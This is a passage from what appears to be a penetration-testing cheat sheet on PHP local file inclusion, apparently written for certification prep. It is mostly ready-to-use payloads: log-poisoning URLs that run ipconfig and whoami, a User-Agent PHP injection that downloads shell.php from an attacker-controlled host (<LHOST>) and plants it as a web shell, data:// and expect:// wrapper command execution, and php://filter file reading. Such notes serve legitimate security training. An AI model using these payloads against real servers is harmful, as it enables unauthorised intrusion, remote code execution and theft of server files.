 ```
vuln.php?param=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

**Linux:**

```
vuln.php?param=/var/log/apache2/access.log&cmd=whoami
```

### IF POSSIBLE, TRY TO HIT AN RFI

Perform Log Poisoning first.

Then:

```
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<LHOST>/shell.php'))?>
```

### ANOTHER METHOD, PHP FILE WRAPPERS

```
vuln.php?param=data:text/plain, hello world
```

**Injection:**

```
vuln.php?param=data:text/plain, <?php echo shell_exec("cmd") ?>
```

### IMPORTANT NOTE

If we are not able to read some ``.php`` files with either Directory Traversal or LFI, it may be happening because ``http://wrapper`` is disabled in the server configuration by setting ``allow_url_include`` to ``0``.

What we can try is:

```
vuln.php?param=ftp://<FILE_NAME>

or

vuln.php?param=expect://<COMMAND>
```

OR

```
vuln.php?param=php://filter/convert.base64-encode/resource=<FILE_NAME>
```

### PHP Info LFI

[See](https://github.com/0xpr0N3rd/OSCP-Prep/blob/main/HTB-Boxes/Linux-Boxes/2%20-%20Poison%20(Medium).md)

-------------------------------------------------------------
